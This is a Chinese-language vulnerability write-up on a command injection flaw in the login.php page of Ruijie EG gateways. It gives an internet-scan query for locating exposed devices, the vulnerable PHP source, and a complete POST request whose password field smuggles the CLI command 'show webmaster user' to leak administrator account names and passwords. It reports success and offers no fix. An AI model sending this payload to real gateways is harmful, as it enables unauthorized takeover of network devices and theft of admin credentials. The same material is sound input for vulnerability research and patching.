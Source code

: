 # 锐捷 EG易网关 login.php 管理员账号密码泄露漏洞

## 漏洞描述

锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-25.png)



漏洞文件 login.php



```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```



关键代码部分



```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```



发送请求包，拼接 CLI指令 `show webmaster user`



```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-26.png)



成功获取账号密码

